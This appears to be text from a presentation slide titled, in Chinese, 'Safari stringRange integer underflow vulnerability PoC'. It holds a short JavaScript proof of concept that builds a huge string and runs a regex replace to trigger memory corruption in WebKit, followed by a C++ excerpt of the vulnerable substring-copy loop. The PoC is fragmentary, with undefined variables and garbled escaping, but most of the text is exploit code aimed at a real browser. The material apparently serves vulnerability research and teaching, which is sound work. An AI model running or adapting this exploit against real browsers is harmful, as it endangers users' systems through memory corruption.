

01.Safari  stringRange整数下溢出漏洞poc

while(str.length<0x100000-0x80){ str=str+str1;}
var r = /.*\\s.*/gm;
 var s = \"\\na\\n\\n"+str+"\\n\\n\\n\\ne\\n\\u0082\\u0d2b\\u1fd8\\u0093aaaaaaaaaaaaaaaaaaa\";
var a=s.replace(r,'x');
alert(a);
 for (int i = 0; i < maxCount; i++) {
        if (i < rangeCount) {
            if (int srcLen = substringRanges[i].length) {
                if (source.is8Bit())
                    StringImpl::copyChars(buffer + bufferPos, source.characters8() + substringRanges[i].position, srcLen);
                else
                    StringImpl::copyChars(buffer + bufferPos, source.characters16() + substringRanges[i].position, srcLen);
                bufferPos += srcLen;
            }
        }